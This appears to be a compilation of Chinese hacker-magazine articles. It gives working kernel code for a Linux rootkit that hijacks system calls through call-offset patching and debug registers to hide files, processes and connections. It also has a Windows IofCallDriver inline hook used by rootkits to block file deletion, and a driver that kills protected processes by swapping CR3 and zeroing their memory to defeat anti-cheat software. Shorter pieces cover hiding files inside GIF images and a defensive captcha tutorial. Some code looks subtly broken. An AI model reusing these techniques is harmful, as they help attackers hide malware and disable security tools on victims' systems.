下面我们让 Linux 内核进入静态调试状态，对 sys_recvfrom 函数进行反汇编，在中断输入命令“gdb -q /usr/src/linux-2.6.18/vmlinux”（笔者的内核为 2.6.18），其部分汇编代码如图 1 所示。由图可知，0xc0233f85 是 sock_recvmsg 的内存地址，我们只需将此地址替换为 hook 函数即可实现函数跳转。2.4 内核以后的版本，系统调用表地址不再导出，即不可通过系统调用号直接映射出函数地址。为了准确获取 sys_call_table 地址实现调用函数的 hook，我们采用了搜索法，从 system_call 地址开始搜索 sys_call_table 特定的 opcode 来定位其内存地址。同样，这里我们也可以采用搜索法从系统调用函数 sys_recvfrom 起始地址开始搜索关键词 call，其对应的机器码为 0xe8，若搜索到 0xe8，则转向 call 指令调用的函数地址，将此地址同 sock_recvmsg 的内存地址比较，若相等则搜索成功，否则继续搜索 call 指令。
搜索指定内核函数的地址代码如下：

```c
unsigned int patch_func(unsigned int handler, unsigned int old_func) {
    unsigned char *p = (unsigned char *)handler;
    unsigned char buf[4] = "\x00\x00\x00\x00";
    unsigned int offset = 0;
    unsigned int orig = 0;
    int i = 0;
    while (1) {
        if (i > 1024) return 0;
        if (p[0] == 0xe8) {
            buf[0] = p[1]; buf[1] = p[2];
            buf[2] = p[3]; buf[3] = p[4];
            offset = *(unsigned int *)buf;
            DbgPrint("***hook_engine:offset:0x%08x\n", offset);
            orig = offset + (unsigned int)p + 5;
            if (orig == old_func) break;
        }
        p++; i++;
    }

    offset = new_func - (unsigned int)p - 5;
    p[1] = (offset & 0x000000ff);
    p[2] = (offset & 0x0000ff00) >> 8;
    p[3] = (offset & 0x00ff0000) >> 16;
    p[4] = (offset & 0xff000000) >> 24;
    return orig;
}
```

上面代码的核心语句即“orig=offset+(unsigned int)p+5;”和“offset=new_func-(unsigned int)p-5;”。对 call 指令比较了解的读者可能会比较明白其含义：call 指令对应的机器指令中并不是转移的目的地址，而是相对于当前 IP 的转移位移。即若 call func 对应的机器码为 E8 05 00，其后一条语句的机器码为 1001:000E B8 00 4C，则 func 函数的地址为 0x05+0x0E=0x13。故 orig=offset+(unsigned int)p+5 语句中，offset 是 call 机器码 0xe8 后的 4 字节偏移值，p+5 即获取紧接 call 指令的下一条指令，相加即得出了 call 所调用的函数地址值。通过替换 offset 值改变函数的执行流程，使得传统的 inline hook 的检查技术完全失效，因为此方法没有介入任何 jmp、ret 指令，也没有添加或者修改任何指令。

##### 利用调试寄存器绕过系统调用

调试寄存器允许用户在内存地址上设置硬件断点，一旦执行流触发了一个硬件断点标记地址，则会将控制权交给调试中断处理程序（int $0x01），继而调用 do_debug 函数。跟踪引发中断处理程序执行的代码入口在源码文件 /arch/i386/kernel/entry.S 中给出了定义：

```asm
KPROBE_ENTRY(debug)
    RING0_INT_FRAME
    cmpl $sysenter_entry,(%esp)
    jne debug_stack_correct
    FIX_STACK(12,debug_stack_correct,debug_esp_fix_insn)
debug_stack_correct:
    pushl $-1 # mark this as an int
    CFI_ADJUST_CFA_OFFSET 4
    SAVE_ALL
    xorl %edx,%edx # error code 0
    movl %esp,%eax # pt_regs pointer
    call do_debug   // 调用 do_debug 函数
    jmp ret_from_exception
CFI_ENDPROC
.previous .text
```

由上面的代码可知，在调用 do_debug 函数之前没有其他的 call 指令，故搜索此函数内存地址就变得更加简单了，只需要匹配到 call 机器码，则断定此 call 指令即 call do_debug 语句。寻找 do_debug 内存地址的代码如下：

```c
static int __get_and_set_do_debug_2_6(unsigned int handler, unsigned int my_do_debug) {
    unsigned char *p = (unsigned char *)handler;
    unsigned char buf[4] = "\x00\x00\x00\x00";
    ...
    unsigned int offset = 0;
    unsigned int orig = 0;
    while (p[0] != 0xe8) p++;   // 寻找 call 指令
    buf[0] = p[1];
    buf[1] = p[2];
    // 获取 call 指令机器码后 4 字节内容，即偏移值 offset
    buf[2] = p[3];
    buf[3] = p[4];
    offset = *(unsigned int *)buf;
    orig = offset + (unsigned int)p + 5;
    // 计算出 call 调用的函数，即 do_debug 内存地址
    offset = my_do_debug - (unsigned int)p - 5;
    // 改变偏移值，使其转向 my_do_debug 函数
    p[1] = (offset & 0x000000ff);
    p[2] = (offset & 0x0000ff00) >> 8;
    p[3] = (offset & 0x00ff0000) >> 16;
    p[4] = (offset & 0xff000000) >> 24;
    return orig;
}
```

其中函数参数 handler 为 int 0x01 中断服务处理程序的入口地址，此地址可以采用类似 system_call 地址获取方式获取，这里不再介绍。下面我们来分析 my_do_debug 函数，即我们修改后的 do_debug 函数。函数代码如下：

```c
static void __my_do_debug(struct pt_regs * regs, unsigned long error_code){
    struct task_struct *tsk = current;
    siginfo_t info;
    int trap = -1;
    int control = 0;
    int s_control = 0;
    int status = 0;
    unsigned int dr2 = 0;
    /* 从 DR6 状态寄存器中获知其触发了哪个调试寄存器断点 */
    asm __volatile__("movl %%dr6,%0\n\t" :"=r" (status));
    /* check for trap on dr0 */
    if(status & DR_TRAP0){
        trap = 0;
        status &= ~DR_TRAP0;
    }
    /* DR0 用来监控系统调用表读写情况 */
    control |= TRAP_GLOBAL_DR0;
    control |= DR_RW_EXECUTE << DR0_RW;
    control |= 0 << DR0_LEN;
    switch(trap){
    case 0: // 系统调用表
        if(!hook_table[regs->eax]){
            asm __volatile__("movl %0,%%dr6\n\t"
                             "movl %1,%%dr7\n\t"
                             : : "r"(status),"r"(control));
            break;
        }
        asm __volatile__("movl %0,%%dr2\n\t" : : "r"(dr2));
        asm __volatile__("movl %0,%%dr6\n\t"
                         "movl %1,%%dr7\n\t"
                         : : "r"(status),"r"(s_control));

        if (regs->eflags & VM_MASK)
            goto orig_do_debug;
        break;
    /* DR2 监视 syscall_table 的入口，sys_table_global 为系统调用表地址 */
    case 2:
        /* 清除 DR2 寄存器 */
        asm __volatile__("xorl %eax,%eax\n\t"
                         "movl %eax,%dr2\n\t");
        /* 恢复 int 0x80 中断处理器 */
        asm __volatile__("movl %0,%%dr6\n\t"
                         "movl %1,%%dr7\n\t"
                         : : "r"(status),"r"(control));
        if ((regs->eax >= 0 && regs->eax < NR_syscalls) &&
            hook_table[regs->eax]) {
            unsigned int verify_hook = (unsigned int)sys_p[regs->eax];
            if (regs->eip == verify_hook)
                regs->eip = (unsigned int)hook_table[regs->eax];
        }
        if (regs->eflags & VM_MASK)
            goto orig_do_debug;
        break;
    default:
        DEBUGLOG(("*** unhandled trap"));
orig_do_debug:
    /* 恢复原始 do_debug 函数的调用 */
    (*__orig_do_dbug)(regs, error_code);
    asm __volatile__("movl %0,%%dr7\n\t" : : "r"(control));
    }
}


```

函数代码中，regs->eax 即系统调用号，我们可以根据此值来判断是否为我们需要 hook 的系统调用函数，若是则替换此函数值即可。

- 获取系统调用表地址；
- 获取调试寄存器引发的陷入处理函数地址 do_debug；
- 定义自己的 my_do_debug 函数，根据 DR6 中的状态寄存器判断是哪个寄存器断点触发，并判断引发中断的 reg->eax 中存放的系统调用号是否为我们感兴趣的系统调用，用新定义的函数替换原始 do_debug；
- 用 DR0 来监控系统调用表的读写操作；
- 隐藏自己在内核中生成的内核模块。

此时，Rootkit 需要完成的常见隐藏功能都可以实现，如文件隐藏、进程隐藏、网络连接的隐藏等。编写代码时，可统一采用一个 hook_table 指针数组将 sys_getdents64、sys_socketcall 等系统调用的 hook 版本存放其中，然后同 reg->eax 进行比对，从而转向 Hook 版本的代码实现中实现隐藏。

##### 小结

Rootkit 技术已经过渡到了硬件级别，是否内核级 Rootkit 就不可能再有更深的挖掘空间还有待探讨。笔者认为只是因为内核级 Rootkit 当前受到大量针对其开发……

前置知识：VC  
关键词：编程、Hook、文件保护

##### Inline Hook

###### IoCallDriver 保护文件
文/liuke_blue

我们知道，通过 Hook SSDT 中的 ZwSetInformationFile 函数可以对文件进行保护，从而防止文件被删除。其实还有不少保护文件不被删除的方法，比如 FSD Dispatch Hook、Hook IoCompleteRequest、在内核层打开文件占用等等。本文给大家介绍的是另一种保护文件不被删除的方法：Inline Hook IofCallDriver。用这个方法不仅可以保护文件，在这个基础上修改还可以做其他不少事情。

函数执行其实最后就转化为向底层设备驱动发送 IRP 来实现，首先是调用函数创建 IRP，然后就是调用 IoCallDriver 函数把 IRP 发送到设备驱动程序。所以我们只要 Hook IoCallDriver 函数就可以控制 IRP 的流向，这归根结底其实就是 IRP Hook 的一种实现。但是 IoCallDriver 函数却是一个宏，它其实在内部调用 IofCallDriver 函数，所以我们真正需要 Hook 的函数是 IofCallDriver 函数。首先看看 IofCallDriver 函数的反汇编：

其实就是将 jmp 要跳转的地址改为 Hook 函数的地址即可，让我们的 Hook 函数先执行，再跳转到原来的函数地址执行。在我们的函数中需要做如下判断来实现保护文件：

- 判断 IRP 操作的请求是不是 `IRP_MJ_SET_INFORMATION`
- 判断 `Irp->Parameters.SetFile.FileInformationClass` 的操作类别是不是 `FileDispositionInformation` 或者 `FileRenameInformation`
- 判断 `DeviceObject->DriverObject->DriverName` 是不是 `FileSystem\ntfs` 或者 `FileSystem\fastfat`
- 判断 `Irp->FileObject->FileName` 是不是要保护不被删除的文件

以下是主要的代码：

```c
kd>
nt!IofCallDriver:
804e23a7 ff2580c75380    jmp dword ptr [nt!pIofCallDriver (8055c780)]
804e23ad 90              nop
804e23ae 90              nop
804e23af 90              nop
804e23b0 90              nop
804e23b1 90              nop
nt!IopfCallDriver:
804e23b2 fe4a23          dec byte ptr [edx+23h]
804e23b5 8a4223          mov al,byte ptr [edx+23h]
```

很明显，看得出开头几条指令就是跳转到 `0x804e23b2` 位置执行，所以 inline IofCallDriver 这个函数……

```c
NTSTATUS FASTCALL MyIofCallDriver(IN PDEVICE_OBJECT DeviceObject, IN OUT PIRP Irp)
{
    NTSTATUS stat;
    // 先保存所有寄存器的原来状态，到时候好恢复现场环境
    // 假如原来开始的指令也是一样的
    __asm {
        pushad
        pushfd
    }

    if (IsNeedProtect(DeviceObject, Irp))
    {
        // 返回删除失败的提示
        __asm {
            popfd
            popad
        }
        __asm {
            mov eax, 0xC000000D
            mov stat, eax
        }
        return stat;
    }

    // 先恢复现场环境，跳转回原地址
    __asm
    {
        popfd
        popad
        mov ecx, DeviceObject
        mov edx, Irp
        call OldAddress
        mov stat, eax
    }
    return stat;
}

int IsNeedProtect(DEVICE_OBJECT *DeviceObject, PIRP Irp)
{
    NTSTATUS status;
    int nResult = FALSE;
    DRIVER_OBJECT *DriverObject = DeviceObject->DriverObject;
    WCHAR *pwsz = NULL;
    IO_STACK_LOCATION *sp;
    FILE_OBJECT *FileObject = NULL;
    status = STATUS_INVALID_PARAMETER;
    sp = IoGetNextIrpStackLocation(Irp);

    // 如果不是删除文件的 I/O 请求报文，就不管它
    if ((sp->MajorFunction != IRP_MJ_SET_INFORMATION)
        && (sp->Parameters.SetFile.FileInformationClass != FileDispositionInformation))
    {
        goto Exit00;
    }

    // 如果不是重命名文件的 I/O 请求报文，也不管它
    if ((sp->MajorFunction != IRP_MJ_SET_INFORMATION)
        && (sp->Parameters.SetFile.FileInformationClass != FileRenameInformation))
    {
        goto Exit00;
    }

    FileObject = sp->FileObject;
    __try
    {
        pwsz = wcsrchr(DriverObject->DriverName.Buffer, L'\\');
        pwsz++;
        // 判断 Irp 是否是发往 ntfs 和 fastfat 驱动的
        if ((_wcsnicmp(pwsz, L"ntfs", 4) && _wcsnicmp(pwsz, L"fastfat", 7)))
        {
            goto Exit00;
        }

        DbgPrint("IofCallDriver Delete File:%ws\n", FileObject->FileName.Buffer);
        pwsz = wcsrchr(FileObject->FileName.Buffer, L'\\');
        if (pwsz != NULL)
        {
            pwsz++;
        }

        // 判断保护的文件是否是冰刃
        if (!_wcsnicmp(pwsz, L"IceSword.exe", 24))
        {
            Irp->IoStatus.Information = 0;
            Irp->IoStatus.Status = STATUS_ACCESS_DENIED;
            IoCompleteRequest(Irp, IO_NO_INCREMENT);
            nResult = TRUE;
            goto Exit00;
        }
    }
    __except (1)
    {
        goto Exit00;
    }

Exit00:
    return nResult;
}

ULONG GetFunctionAddr(IN PCWSTR FunctionName)
{
    UNICODE_STRING HookFunctionName;
    RtlInitUnicodeString(&HookFunctionName, FunctionName);
    return (ULONG)MmGetSystemRoutineAddress(&HookFunctionName);
}

// inline Hook IofCallDriver 函数
VOID InlineHook()
{
    KIRQL oldIrql;
    ULONG Address;
    Address = (ULONG)GetFunctionAddr(L"IofCallDriver");
    __asm
    {
        mov eax, Address
        mov esi, [eax+2]
        mov eax, [esi]
        mov OldAddress, eax
    }

    // 提升中断层次
    oldIrql = KeRaiseIrqlToDpcLevel();
    __asm
    {
        cli
        mov eax, cr0
        and eax, not 10000h
        mov cr0, eax
    }

    // 进行地址替换
    __asm
    {
        mov eax, Address
        mov esi, [eax+2]
        mov dword ptr [esi], offset MyIofCallDriver
    }

    __asm
    {
        mov eax, cr0
        or eax, 10000h
        mov cr0, eax
        sti
    }

    // 恢复中断层次
    KeLowerIrql(oldIrql);
    return;
}

VOID UninlineHook()
{
    KIRQL oldIrql;
    ULONG Address;
    Address = (ULONG)GetFunctionAddr(L"IofCallDriver");

    // 提升中断层次
    oldIrql = KeRaiseIrqlToDpcLevel();
    __asm
    {
        cli
        mov eax, cr0
        and eax, not 10000h
        mov cr0, eax
    }

    // 进行地址替换
    __asm {
        mov eax, Address
        mov esi, [eax+2]
        mov eax, OldAddress
        mov dword ptr [esi], eax
    }

    __asm {
        mov eax, cr0
        or eax, 10000h
        mov cr0, eax
        sti
    }

    // 恢复中断层次
    KeLowerIrql(oldIrql);
    return;
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT theDriverObject,
                     IN PUNICODE_STRING theRegistryPath)
{
    DbgPrint("Hook Called!\n");
    theDriverObject->DriverUnload = DriverUnload;
    InlineHook();
    return STATUS_SUCCESS;
}


```

有几处代码还是要在这里详细说明一下，如果不注意，很容易出错，我在编写中就曾遇到这些问题，因此耽误了不少时间。编写代码时需要注意的问题有：① 在内联 Hook 函数时，先要用 `pushad`、`pushfd` 这两条汇编指令来保存寄存器的状态；② `IoCallDriver` 函数的调用约定是 `fastcall`，第一个参数放在 `ECX`，第二个参数放在 `EDX`；③ 开始指令 `jmp dword ptr [nt!pIofCallDriver]` 处，`pIofCallDriver` 只是一个符号（如 `0x8055c780`），Hook 时应替换其指向地址而不是符号本身地址。
最后在这里说一下这种方法的不足之处：还可以通过更改文件内容（如清空内容）达到“删除”效果。对于冰刃这类 AntiRootKit 工具，这种方法也没有作用，因为冰刃可通过自己编写的 `IoCallDriver` 发送 IRP 删除文件。这种方法仍常被一些 RootKit 和病毒使用。（编辑提醒：本文涉及代码可到黑防官方网站下载）

前置知识：Java  
关键词：编程、文件隐藏、文件合并

##### 机密文件的图片隐藏法
文/图 暗夜舞者

目前网上尤其是黑客论坛上有很多关于隐藏机密文件的方法，其中将文件隐藏在图片中是比较巧妙的。就算陌生人得到了伪装后的图片文件，只要不知道破解方法，基本就得不到机密文件。下面我们用 Java 实现一下这种隐藏方法。打开 Eclipse，创建一个 Java 工程。我们要做的就是将目标文件夹打包，变成 ZIP 格式。

```java
public void testCreateZip() throws Exception {
    // 压缩 baseDir 下所有文件，包括子目录
    String baseDir = "d:/temp";

    List fileList = getSubFiles(new File(baseDir));
    // 压缩文件名
    ZipOutputStream zos = new ZipOutputStream(new FileOutputStream("d:/out.zip"));
    ZipEntry ze = null;
    byte[] buf = new byte[1024];
    int readLen = 0;
    for (int i = 0; i < fileList.size(); i++) {
        File f = (File) fileList.get(i);
        // 创建一个 ZipEntry，并设置 Name 和其他属性
        ze = new ZipEntry(getAbsFileName(baseDir, f));
        ze.setSize(f.length());
        ze.setTime(f.lastModified());
        // 将 ZipEntry 加到 zos 中，再写入实际的文件内容
        zos.putNextEntry(ze);
        InputStream is = new BufferedInputStream(new FileInputStream(f));
        while ((readLen = is.read(buf, 0, 1024)) != -1) {
            zos.write(buf, 0, readLen);
        }
        is.close();
    }
    zos.close();
}


```

文件定位到倒数第二个字节前，也就是文件总长度减 8 的位置（一个字节 8 位），开始写入 ZIP 文件内容，之后关闭流。

虽然这种隐藏方法实现起来不是很难，但效果却非常明显。下面我们做一个测试，机密文件如图 1 所示，temp 文件夹就是我们的目标，里面有 2 个机密文件，再找一个 GIF 格式的图片文件 test.gif，如图 2 所示。

运行程序，得到如下文件，如图 3 所示。其中 out.zip 是中间产物，这时的 test.gif 就是我们想要的最终隐藏文件。双击 test.gif 的时候，显示的还是图片。而将 test.gif 的后缀改为 zip，即 test.zip，然后双击，如图 4 所示。我们的机密文件显示出来了，说明这个用图片隐藏文件的方法已经成功实现。
一些附加方法在本类中的实现，请参见源代码，这里就不赘述了。下面是最重要的方法，将 ZIP 文件合并到 GIF 图片文件中。

```java
private void createFinalFile(String zipFile, String gifFile) {
    try {
        RandomAccessFile raf = new RandomAccessFile(gifFile, "rw");
        FileInputStream fis = new FileInputStream(new File(zipFile));
        long firstLength = raf.length() - 8;
        raf.seek(firstLength);
        byte[] buffer = new byte[1024];
        while (fis.read(buffer) > 0) {
            raf.write(buffer);
        }
        fis.close();
        raf.close();
    } catch (FileNotFoundException e) {
        e.printStackTrace();
    } catch (IOException e) {
        e.printStackTrace();
    }
}


```
先定义一个随机访问类变量 `RandomAccessFile`，这个类对于文件的读写操作非常方便，它负责对 GIF 文件进行一些操作，再用 `FileInputStream` 文件流读入目标 ZIP 文件（在上面的方法中已经生成），将 GIF 文件定位到倒数第二个字节前，也就是文件总长度减 8 的位置。

本文只是给大家提供一个思路，有兴趣的朋友可以完成其具体的功能界面，希望大家能共同提高。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：ASP.NET

关键词：编程、验证码、图像识别

##### 巧用 ASP.NET 实现验证码安全登录

文/图 Winbo

如今，在国内外众多的博客发表评论或者在网站登录时，都需要输入验证码，这是为了防止大量的垃圾回复，或者防止个别用户反复登录尝试攻破密码。通过验证码，可以节约大量的服务器资源。比如使用十分普遍的 QQ 对于用户登录采用的是图片验证码，它是包含无规律字符信息的图片，普通用户肉眼可以辨认其中的字符信息，通过恶意软件自动登录的行为就会被有效阻止。因此，了解验证码的实现机制，对于我们的日常安全应用会有很好的帮助作用。

想当年，溯雪是早年大名鼎鼎的黑客神器“刀光雪影”之一，其功能就是暴力破解表单，并赢得了很多黑客的青睐。但由于验证码的横空出世，几乎把溯雪推向了死路。对于验证码机制，网上的攻击手法都是利用数学方法分析图片。很多破解验证码的思路，都是在每次登录的地方访问一个脚本文件，该文件生成含验证码的图片并将值写入到 Session 里，提交的时候验证登录的脚本就会判断提交的验证码是否与 Session 里的一致。PowerEasy2005 的管理员登录页面就是很好的实例，只要我们把首次访问的验证码辨认出来，以该会话 Cookie 值不断提交就可以实现暴力破解了。一个使用溯雪破解的示例如图 1 所示。

图 1

###### 认识验证码

顾名思义，所谓验证码，就是将服务器端随机产生的一串数字或字母或符号或文字，生成一幅图片，然后在图片里加上一些干扰像素防止 OCR 识别，由用户肉眼识别其中的验证码信息，输入表单并提交给网站验证，验证成功后才能使用某些功能。例如，盗号者可能会通过盗来的号码发送垃圾广告、病毒、转移 Q 币、游戏点，诈骗用户的好友，甚至删除好友、退群、解散群等动作，而验证码大大延缓了盗号者的这些伤害性行为，将用户损失降到最低。在使用 QQ 登录时，验证码的作用就显现出来了。通过验证码，可以及时有效阻止盗号者大量盗取 QQ 号码。

目前验证码有以下几种基本形式：纯数字验证码；数字和字母混合验证码；汉字验证码。这里采用数字和字母混合验证码的形式。使用验证码技术可有效防止利用机器人进行自动批量注册，并能够阻止对网站使用特定破解程序以暴力破解方式进行不断非法登录尝试和灌水的行为。通常情况下，使用验证码时，在服务器端会随机生成验证码字符串，保存在内存中，并写入图片，发送给浏览器端显示，用户在浏览器端输入验证码图片上的字符后，会提交服务器端；最后，对提交的字符和服务器端保存的该字符进行比较，判断其是否一致，如果两者一致，就会继续，否则将返回提示。

由此可见，了解验证码的安全机制，对于网站的安全具有十分重要的作用。比如，对付上述漏洞时，当发现密码错误之后将 Session 中的验证码值置空，且每次检查验证码的时候，可以先检查验证码值是否为空。

###### 一个验证码案例的实现过程

为了增强理解，这里重点讲解一个 ASP.NET 的验证码实现过程。具体步骤如下：

- 1. 打开 Visual Studio.NET，建立一个 `ValidateImage.ashx` 文件，用来产生验证码图片。引入命名空间，生成验证码图片的代码如下：

```csharp
// 引入命名空间
using System;
using System.IO;
using System.Web;
using System.Drawing;
```

定义类 ValidateImage。其中，IHttpHandler 接口定义了 HTTP 处理程序以同步方式处理一个 HTTP 请求需要采取的行动。代码如下：

```csharp
public class ValidateImage : IHttpHandler, System.Web.SessionState.IRequiresSessionState
{
    public void ProcessRequest(HttpContext context)
    {
        // 更换图片
        context.Response.Cache.SetCacheability(HttpCacheability.NoCache);
        // 定义随机数字
        string valid = "";
        // 生成包括验证码的图片
        MemoryStream ms = Create(out valid);
        // 存储在 Session 中的验证码，用于验证
        context.Session["ValidateImage"] = valid;
        // 避免输出流
        context.Response.ClearContent();
        // 输出流格式
        context.Response.ContentType = "image/png";
        // 输出
        context.Response.BinaryWrite(ms.ToArray());
        context.Response.End();
    }

    // 设置例子能否被多个请求共享（复用能提高性能）
    public bool IsReusable
    {
        get { return false; }
    }
}
```

用来产生随机数的方法，代码如下：

```csharp
// 用来产生随机数的方法
private string RndNum(int VcodeNum)
{
    // 验证码可以显示的字符集
    string Vchar = "1,2,3,4,5,6,7,8,9,a,b,c,d,e,f,g,h,j,k,m,n,p,q,r,s,t,u,v,w,x,y,z,A,B,C,D,E,F,G,H,J,K,L,M,N,P,Q,R,S,T,U,V,W,X,Y,Z";
    // 拆分到一个数组中
    string[] VcArray = Vchar.Split(new Char[] { ',' });
    // 收集随机数
    string VNum = "";
    // 记录最后随机值，尽量避免同一随机数
    int temp = -1;
    Random rand = new Random();

    // 通过一个简单的算法，以确保不同的随机编号
    for (int i = 1; i < VcodeNum + 1; i++)
    {
        if (temp != -1)
        {
            rand = new Random(i * temp * unchecked((int)DateTime.Now.Ticks));
        }

        // 获得随机数
        int t = rand.Next(55);
        if (temp != -1 && temp == t)
        {
            return RndNum(VcodeNum);
        }
        temp = t;
        // 随机数字位数加 1
        VNum += VcArray[t];
    }
    return VNum;
}
```

生成随机数，并将其写入图像文件。代码如下：

```csharp
public MemoryStream Create(out string VNum)
{
    VNum = RndNum(3);
    Bitmap Img = null;
    Graphics g = null;
    MemoryStream ms = null;
    System.Random random = new Random();

    // 设置颜色代码
    Color[] c = {
        Color.Black, Color.Red, Color.DarkBlue,
        Color.Green, Color.Brown, Color.DarkCyan, Color.Purple
    };

    // 待选字体集
    string[] fonts = { "Verdana", "Microsoft Sans Serif", "Comic Sans MS", "Arial", "宋体" };

    // 对图像大小的定义，生成图像的例子
    Img = new Bitmap((int)VNum.Length * 18, 32);
    // 从新的图像对象生成图片
    g = Graphics.FromImage(Img);
    // 设置白色背景
    g.Clear(Color.White);

    // 在背景的随机位置画图
    for (int i = 0; i < 100; i++)
    {
        int x = random.Next(Img.Width);
        int y = random.Next(Img.Height);
        g.DrawRectangle(new Pen(Color.LightGray, 0), x, y, 1, 1);
    }

    // 在 g 中映射验证码
    for (int i = 0; i < VNum.Length; i++)
    {
        int cindex = random.Next(6);   // 随机颜色索引值
        int findex = random.Next(5);   // 随机字体索引值

        // 格式
        Font f = new System.Drawing.Font(fonts[findex], 15, System.Drawing.FontStyle.Regular);
        // 颜色
        Brush b = new System.Drawing.SolidBrush(c[cindex]);
        int ii = 4;
        if ((i + 1) % 2 == 0) // 控制不同验证码字符在垂直方向的位置
        {
            ii = 2;
        }

        // 绘制验证码字符
        g.DrawString(VNum.Substring(i, 1), f, b, 3 + (i * 12), ii);
    }

    ms = new MemoryStream(); // 生成内存流对象
    Img.Save(ms, ImageFormat.Jpeg); // PNG 图像的图像文件

    // 资源回收
    g.Dispose();
    Img.Dispose();
    return ms;
}
```

- 2. 将此文件的相对路径赋给登录界面中的验证码 Image 控件的图片链接地址。

- 3. 如果产生的验证码图片不清晰，可点击验证码图片本身或其旁边的“看不清楚，换个图片”标签来更换验证码图片。在登录页面的 .aspx 文件中，引用生成验证码图片的 .ashx 文件，其中 `ImageChange()` 方法用于实现验证码刷新。通过点击验证码图片本身或其旁边的“看不清，换一张”标签来刷新验证码图片，方便用户在验证码图片中字符模糊的情况下能够得到可识别的验证码字符。参考 JavaScript 代码如下：

```html
<script language="javascript" type="text/javascript">
function ImageChange()
{
  // 在每次调用时修改 URL 地址
  var dt = new Date();
  document.form1.Pic.src="Componects/ValidateImage.ashx?t="+dt;
}
</script>

<a href="#" onclick="ImageChange();">
  <asp:Label ID="lblImageChange" runat="server" Text="看不清,换一张" ...></asp:Label>
</a>
```

> 有时候，我们也会碰到验证码图案比较复杂的问题。其原因在于，为了对付验证码攻击，在自动登录软件中采用了文字识别技术。文字识别技术是指计算机自动识别图片中的文字，不用人的肉眼辨认。它可以被盗号者用来盗号，与验证码是矛与盾的关系。因此，我们必须不断改进才能防止这些软件的自动识别，改进的验证码加入了一些杂点、线条，所以较以前更难以辨认。

- 4. 比较提交的字符和服务器端保存的该字符是否一致。如果一致就继续，否则返回提示。

以上是一个比较典型的案例，借助验证码机制有效增强了网站的安全性。当然，验证码也不是万能的。以 QQ 的验证码安全机制为例，它不能防止 QQ 号被盗，不能防止 Q 币转移，不能防止好友、群被删除。但是，通过验证码，能够降低盗号者批量修改用户资料、转移 Q 币或者发垃圾消息的速度。而且，也可以不断地优化验证码机制，让验证码更加智能化，使得好人更容易识别，坏人更难识别。总之，了解验证码的实现机制，并对其不断优化，就能轻松游走于安全攻防之间。

前置知识：VC

关键词：编程、内存清零、驱动

##### 简单代码打造无敌：内存清零秒过 NP 内存保护

文/广东工业大学 胡文亮，广州某间中学 胡钧亮

进程的保护和结束是一种很好玩的游戏，不少人（包括我）都玩得乐此不疲，相信不少所谓的“底层大牛”都是从玩这个游戏起步的。但这个游戏玩了这么久，也该了结了，本文就将公布一种无敌的杀进程方法，没有任何手段可以拦截（禁止加载驱动除外）。我在《特殊方式结束进程以及防御》中说道，结束进程的方法有两种：第一种是插 APC 型；第二种是内部破坏型，“内存清零”明显属于第二种。以前《黑客防线》曾经有两篇文章讲到内存清零，但它们都用到了 `KeStackAttachProcess`。只要我们挂钩 `KiAttachProcess`（具体方法见《内核三步走实现 Inline Hook》），就能轻松防御甚至实现反杀进程。有人说，在杀进程之前恢复 `KeStackAttachProcess` 和 `KiAttachProcess` 不就行了吗？那我说，挂钩 `KeRaiseIrqlToDpcLevel` 你不就不能恢复了吗？像著名的游戏保护 NP，一恢复钩子就蓝屏，不就没辙了吗？恢复钩子绝对不是什么好的方法，我们必须另辟蹊径。首先提出一个简单的问题：为什么我们驱动程序一旦出错就会蓝屏，而普通程序不会呢？因为高 2GB 空间（内核空间）是共享的，而低 2GB 空间（用户空间）是私有的。驱动程序运行在内核空间，一旦出错必然是“城门失火，殃及池鱼”；而普通程序运行在用户空间，出错仅仅是自己挂掉而已，不会影响别的程序。不同进程都有自己的页目录和页表，这也是内存空间不能跨进程访问的原因（不然就没有必要先依附进程再清零了）。无论是 WriteProcessMemory 还是 NtWriteVirtualMemory，都会调用 KeStackAttachProcess。而 KeStackAttachProcess 最终会用到 KiSwapProcess 来切换进程环境，KiSwapProcess 会将目标进程的页目录指针放入 CR3。

我们要进行内存清零，仅仅是需要拿到目标进程的页目录，然后把虚拟地址的数据破坏。破坏虚拟地址的数据好说，但怎么拿到目标进程的页目录呢？莫非要把 WRK-v1.2 或者 ReactOS 中 KiSwapProcess 代码抄一次？其实有个简单得多的方法。

我们首先看看 Windows XP 的 KPROCESS 结构！

| 字段 | 值 |
|---|---|
| Nt!_KPROCESS |  |
| +0x000 Header | _DISPATCHER_HEADER |
| +0x010 ProfileListHead | _LIST_ENTRY |
| +0x018 DirectoryTableBase : [2] Uint4B |  |
| +0x020 LdtDescriptor | _KGDTENTRY |

看到 0x18 那个偏移没有？DirectoryTableBase[0] 记录了本进程的页目录地址。接下来做的事情就简单了，获得待结束进程的 EPROCESS -> 获取 EPROCESS+0x18 的值（页目录值）-> 将页目录的值放到 cr3 中 -> 内存清零 -> 恢复 cr3 的值。实现的代码如下：

```c
NTSTATUS HwPVASE(PEPROCESS ptrEProcess)
{
    ULONG ulPDT=0, ulOldCr3=0, vAddr=0;
    HANDLE hProcess=0;

    // AttachProcess
    if (NT_SUCCESS(MmIsAddressValid((PVOID)((ULONG)ptrEProcess+0x18)))) {
        // If The Address Is OK
        ulPDT=*(PULONG)((ULONG)ptrEProcess+0x18);
        // Get PDT; 0x18 is not HardCode
    } else {
        return STATUS_UNSUCCESSFUL;
    }

    _asm cli;
    _asm {
        mov eax, cr3;
        mov ulOldCr3, eax;
        mov eax, ulPDT;
        mov cr3, eax;
        sti;
    }

    // PVASE
    for(vAddr=0; vAddr<=0x2000000; vAddr+=0x1000) {
        if(MmIsAddressValid((PVOID)vAddr)) {
            try {
                ProbeForWrite((PVOID)vAddr, PAGE_SIZE, PAGE_SIZE);
                memset((PVOID)vAddr, 0xCC, PAGE_SIZE);
            } except(1) {
                continue;
            }
        }
    }

    // DetachProcess
    _asm {
        cli;
        mov eax, ulOldCr3;
        mov cr3, eax;
        sti;
    }

    return STATUS_SUCCESS;
}


```

需要注意的是，虽然每个系统的 EPROCESS 变化很大，但是 KPROCESS 中 DirectoryTableBase 的偏移没有变化，至少在 32 位的 Windows XP、Windows 2003、Windows Vista、Windows 2008 和 Windows 7 中这个偏移都没有变化。所以，这份代码是整个 32 位 NT 系统通用的。

